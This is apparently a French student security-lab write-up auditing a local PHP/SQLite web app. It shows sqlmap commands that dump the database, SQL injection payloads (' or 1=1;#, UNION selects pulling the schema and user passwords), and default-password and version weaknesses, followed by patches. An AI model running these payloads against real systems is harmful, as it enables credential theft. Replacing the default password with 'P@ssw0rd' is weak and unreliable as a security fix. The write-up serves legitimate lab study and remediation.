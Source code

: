 # Projet 2

## Identification des failles 

En effectuant un premier test avec sqlmap on peut constater plusieurs choses. Nous avons la liste des tables, le type de la base (SQLite) et le nom de la base de données. On peut modifier les requêtes en conséquences. 

Apparemment la version SLQlite serait vulnérable aux injection UNION et à 

 **POST parameter 'txt_uname' is vulnerable** 

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --tables --forms --crawl=2 --level=5 --risk=3

Database: SQLite_masterdb
[3 tables]
+-----------------+
| message         |
| sqlite_sequence |
| userSti         |
+-----------------+
```

Nous allons maintenant essayé de faire un dump de la table `userSti` afin de savoir si elle contient des credentials. On voit qu'il  y a 4 entrées utilisateur dans la table  userSti.

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --dbms=SQLite -D SQLite_masterdb -T userSti --dump --forms --crawl=2 --level=5 --risk=3
+----+
| id |
+----+
| 1  |
| 2  |
| 3  |
| 5  |
+----+
```

### Injection SQL
La page de connexion est vulnérable à une "Boolean based Blind SQL Injection" sur le champ txt_login
```sql
' or 1=1;#
```

Il est possible de récupérer le script de création des tables sqlite, comme le site web est vulnérable à des unions attaques sur l'URL contact.php
```sql
'UNION select name,sql from sqlite_master;
```
La base de donnée donne 3 scripts de générations dont 2 nous intéresse (message, userSti, sqlite_sequence)
```sql
CREATE TABLE 'message' ('id' integer PRIMARY KEY AUTOINCREMENT, receiptDate DATE NOT NULL, sender integer NULL, receiver integer NULL, sujet varchar (50) NOT NULL, messageBody varchar (500) NOT NULL, CONSTRAINT fk_sender FOREIGN KEY(sender) REFERENCES userSti(id), CONSTRAINT fk_receiver FOREIGN KEY(receiver) REFERENCES userSti(id) )

CREATE TABLE 'userSti' ('id' integer PRIMARY KEY AUTOINCREMENT, username varchar (50) UNIQUE NOT NULL, password varchar (255) NOT NULL, isAdmin INT(1) NOT NULL, isActive INT(1) NOT NULL )
```
Il est possible de récupérer les mots de passe des utilisateurs pour pouvoir les étudier dans un second temps en offline
```sql
'UNION select 1,password from userSti;#
```

### PhpLiteAdmin

Nous avons une version de phpLiteAdmin 1.9.6 qui est vulnérable aux attaques CRSF, XSS et injection Html comme le montre ce [site](https://www.exploit-db.com/exploits/39714) cela permettrait. 

Le deuxième problème vient du fait que le mot de passe par défaut, **admin**,  a été laissé. Cela nous permet d'accéder compétemment aux données de l'application.  

### PHP Version 5.5.9 

La version php actuelle, qui est 5.5.9, est victime de plusieurs vulnérabilité sans exploit connu pour la plupart. Les possibilités les plus importantes sont le déni de service et l'exécution de code selon ce [site](https://www.cvedetails.com/vulnerability-list.php?vendor_id=74&product_id=128&version_id=164957&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=4&trc=101&sha=d8cb459be2a570e543cd95cce804c67332d729a8) 

## Analyse de menace 

## Correctif logiciel 

### PhpLiteAdmin

Nous avons ajouté un correctif avec la version de phpLiteAdmin 1.9.8.2 qui est la dernière version sortie. Nous avons aussi changer le mot de passe par défaut en **P@ssw0rd**. 

### PHP Version et nginx 

Nous avons remplacé la version de php par la version 7.4.13 qui ne souffre pour l'instant d'aucune vulnérabilité. Nous avons aussi profité de faire la mise à jour du serveur nginx même si la version ne souffrait d'aucune vulnérabilité connue.